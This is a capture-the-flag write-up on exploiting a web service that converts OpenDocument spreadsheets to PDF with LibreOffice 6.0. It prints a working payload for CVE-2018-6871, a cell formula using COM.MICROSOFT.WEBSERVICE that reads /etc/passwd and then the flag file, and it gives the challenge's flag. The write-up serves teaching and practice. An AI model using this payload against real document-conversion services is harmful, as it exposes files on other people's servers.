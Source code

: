 ![](./brief.png)

The challenge provides us with a simple web page

![](./images/start.png)

It only allows us to upload a `.fods` file (OpenDocument Flat XML Spreadsheet)

Uploading a simple file like the example below:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<office:document [..]>
    <office:body>
        <office:spreadsheet>
            <table:table table:name="1">
                <table:table-column/>
                <table:table-row>
                    <table:table-cell office:value-type="string" calcext:value-type="string">
                        <text:p>TEXT</text:p>
                    </table:table-cell>
                </table:table-row>
                <table:table-row></table:table-row>
            </table:table>
            <table:named-expressions/>
        </office:spreadsheet>
    </office:body>
</office:document>
```

Produces the document:

![](./images/test_pdf.png)

This will be used as our minimal working example later.

After attempts trying XXE (XML External Entity) attack and doing some reading I decided to actually look at the pdf produced

Downloading this `pdf` and running `exiftools` on it gives us:
```
[..]
Creator                         : Calc
Producer                        : LibreOffice 6.0
[..]
```
This shows us that the web application is converting the `.fods` file to a PDF using LibreOffice 6.0 Calc.
Doing some research on LibreOffice gives us [CVE-2018-6871](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-6871)

```
LibreOffice before 5.4.5 and 6.x before 6.0.1 allows 
remote attackers to read arbitrary files via =WEBSERVICE 
calls in a document, which use the COM.MICROSOFT.WEBSERVICE function.
```

Further research also provided a [proof of concept](https://github.com/jollheef/libreoffice-remote-arbitrary-file-disclosure) on GitHub. 
Stripping this proof of concepts lets us access local files using `=WEBSERVICE`, this gives us this minimal example:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<office:document [..]>
 <office:body>
  <office:spreadsheet>
   <table:calculation-settings table:automatic-find-labels="false" table:use-regular-expressions="false" table:use-wildcards="true"/>
   <table:table table:name="1">
    <table:table-column table:default-cell-style-name="Default"/>
    <table:table-row>
      <table:table-cell 
          table:formula="of:=COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;)" 
          office:value-type="string" 
          office:string-value="" 
          calcext:value-type="string">
       <text:p>#VALUE!</text:p>
     </table:table-cell>
    </table:table-row>
    <table:table-row></table:table-row>
   </table:table>
   <table:named-expressions/>
  </office:spreadsheet>
 </office:body>
</office:document>
```

When placed in the compiler we get this output!

![](./images/passwd.png)

This is the last line of the `/etc/passwd` file and shows the arbitrary file read attack was successful. This attack is very interesting because it can be executed through normally innate files such as a spreadsheets or word documents.

Using the home directory we can see `/home/libreoffice_admin` as the users home directory. With a little trial and error the file path used was `/home/libreoffice_admin/flag`.

![](./images/flag.png)

FLAG
```
fb{wh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful}
```